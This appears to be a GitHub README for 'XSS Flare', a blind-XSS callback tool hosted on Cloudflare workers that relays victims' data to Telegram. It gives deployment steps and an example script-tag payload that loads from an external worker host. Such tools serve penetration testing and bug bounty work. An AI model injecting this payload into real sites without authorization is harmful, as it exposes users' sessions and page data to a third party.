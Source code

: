 # XSS Flare
XSS hunter ported on cloudflare serverless workers ! This script serves JS payloads from cloudflare workers and redirects the incoming callbacks to telegram. (Telegram bot token is not exposed to victims) It generates blind XSS reports that looks like this.

![REPORT](https://github.com/EgeBalci/xss-flare/raw/master/screenshot.png)

## Installation
1. Login to your cloudflare account and create a serverless worker.
2. Replace the `BotToken` and `ChatID` values inside the `index.js` file.
3. Paste the `index.js` contents into the cloudflare worker script editor.
4. Click `Save and Deploy`. All done !

Here is an example blind XSS payload.
```
<script src="https://[your.workername].workers.dev"></script>
```
